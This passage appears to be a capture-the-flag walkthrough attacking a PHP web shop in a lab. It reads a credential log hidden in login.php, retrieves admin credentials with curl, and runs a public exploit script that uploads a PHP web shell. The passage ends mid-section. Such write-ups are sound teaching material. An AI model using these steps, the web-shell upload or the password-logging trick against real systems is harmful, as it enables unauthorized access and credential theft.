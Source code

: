 ```
$ ll
total 60
drwxr-xr-x 24 kali kali  4096 Sep  3  2020 admin
drwxr-xr-x  2 kali kali  4096 May 28  2020 cache
drwxr-xr-x  2 kali kali  4096 May 28  2020 data
drwxr-xr-x  7 kali kali  4096 May 14  2018 ext
-rw-r--r--  1 kali kali 15086 May 28  2020 favicon.ico
drwxr-xr-x 10 kali kali  4096 May 28  2020 images
drwxr-xr-x 11 kali kali  4096 May 28  2020 includes
-rw-r--r--  1 kali kali  2508 May 14  2018 index.php
drwxr-xr-x  2 kali kali  4096 May 28  2020 logs
drwxr-xr-x  4 kali kali  4096 May 14  2018 pages
-rw-r--r--  1 kali kali    71 May 28  2020 robots.txt
drwxr-xr-x  4 kali kali  4096 May 29  2020 vqmod
```

We can look at the `/admin` directory first. Within the `login.php` file, we can find a hidden directory:

```php
if (isset($_POST['login'])) {
    //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);
    user::login($_POST['username'], $_POST['password'], $redirect_url, isset($_POST['remember_me']) ? $_POST['remember_me'] : false);
  }
```

Within the .txt file, we can find credentials:

```
$ curl http://10.129.71.208/shop/admin/.log2301c9430d8593ae.txt
User: admin Passwd: theNextGenSt0r3!~
```

Now that we have credentials, we can login at `/shop/admin`. Within the dashboard, we can find the version that is in use:

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

So this version is indeed vulnerable to the LFI we found earlier.&#x20;

### File Upload --> SQL Injection

When trying the PoC, we can see that the file uploaded, but it was not executing:

```
$ python 45267.py -t http://10.129.71.208/shop/admin/ -u admin -p 'theNextGenSt0r3!~' 
Shell => http://10.129.71.208/shop/admin/../vqmod/xml/KQ7KN.php?c=id
b''
```

